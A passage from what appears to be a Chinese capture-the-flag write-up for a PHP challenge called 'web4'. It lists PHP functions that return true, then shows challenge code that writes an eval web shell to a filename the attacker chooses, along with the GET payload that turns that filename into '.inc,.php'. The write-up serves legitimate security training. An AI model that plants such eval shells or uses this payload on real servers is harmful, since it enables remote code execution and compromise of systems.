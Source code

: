 结果为bool(true)的函数

```
closelog
ob_start
ob_flush
ob_clean
gc_enabled
ob_end_flush
ob_end_clean
mysqli_thread_safe
restore_error_handler
spl_autoload_register
readline_clear_history
restore_exception_handler
output_reset_rewrite_vars
session_start
phpcredits
phpinfo
```



## web4

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-01-16 15:42:02
# @Last Modified by:   h1xa
# @Last Modified time: 2022-01-24 22:14:02
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

highlight_file(__FILE__);
error_reporting(0);

$key=  call_user_func(($_GET[1]));
file_put_contents($key, "<?php eval(\$_POST[1]);?>");

die("虎年大吉，新春快乐！");

虎年大吉，新春快乐！
```

![](https://s2.loli.net/2022/03/27/Ih4H6vfeNcKWGPV.png)

`?1=spl_autoload_extensions`

`.inc,.php`
